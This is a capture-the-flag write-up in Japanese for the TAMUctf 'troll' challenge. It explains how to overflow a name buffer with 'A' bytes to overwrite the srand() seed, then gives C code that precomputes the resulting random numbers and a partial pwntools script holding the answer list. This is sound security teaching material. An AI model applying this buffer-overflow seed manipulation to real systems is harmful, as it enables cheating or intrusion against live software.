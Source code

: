 やっていること：

1. time()で時間を取る<br>
2. 上記の値を使ってsrand()コール<br>
3. rand()を使って、1~100000の乱数を生成<br>
4. これを99回ぴったり予想できたらフラグ表示<br>

だいたい、こんな感じ。だと思います。

<br>
どうして最初に名前を入力する箇所があるのかを考えると、BOFを使ってsrand()の引数を初期化し乱数を固定する、というのが解法のようですね。

<br>
名前は `local_58[44]` に入るので、srand()の引数になっている `local_18` を上書きするには、他のローカル変数等を考慮すると76バイト(44+32)に必要になります。

全部 'A' で埋めちゃうことにします。

<br>
別途Cでコードを書いて、0x4141414141414141をシードにしたときの乱数のリストを予め計算しておきます。

```C
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main()
{
	int iVar1;
	int local_1c;
	time_t local_18;
	int local_c;
	
	local_18 = time((time_t *)0x0);
	local_18 = 0x4141414141414141;
	srand(local_18);
	local_c = 0;
	while( 1 ) {
		if (99 < local_c) {
			break;
		}
		iVar1 = rand();
		local_1c = iVar1 % 100000 + 1;
		printf("0x%x\n", local_1c);
		local_c = local_c + 1;
	}
}
```

<br>
Pwnのコードです。

```Python
#!/usr/bin/env python
from pwn import *

if 0:
    s = process('./troll')
else:
    s = remote('challenges.tamuctf.com', 4765)

ans = [0x6e01,0xe18f,0xe4f8,0xc5a9,0xa2c5,0x13c9f,0x330a,0xc382,0x10c13,0x444,0x160cc,0x1427e,0x826f,0x748c,0xd291,0xca0f,0xc122,0x7e9d,0x16c7e,0x1801e,0xcf4b,0x604,0x30d4,0xd9a1,0x4fac,0x12498,0x1847e,0x14eba,0x14529,0xfeaa,0x72b6,0x2c89,0x5998,0x10ed,0x13212,0x13c3d,0x14d8c,0x1651b,0xb8fe,0xd2fe,0x229e,0x9329,0x8edb,0xa50d,0x14795,0x1aab,0x285b,0x8216,0x9948,0x4e18,0x7b93,0x21d2,0x541b,0xac66,0xfb72,0xe3a7,0x8a3d,0xf94f,0xabc0,0x48c5,0xb139,0x15e55,0xb52e,0x10ad0,0x2882,0x609f,0x1004c,0x1760d,0x7ef9,0x32a9,0x1024a,0xa196,0x105b2,0x4a64,0x18682,0xc6a6,0x650f,0x283c,0x148bb,0x13e36,0x7654,0x3dad,0x16007,0x10a4e,0xea12,0x114b9,0xa734,0x2d8e,0xc747,0xc33,0x7652,0x1787f,0x16a88,0x12b7f,0xfcaf,0xc69,0x455d,0xb63a,0x3bb5,0xc455]
```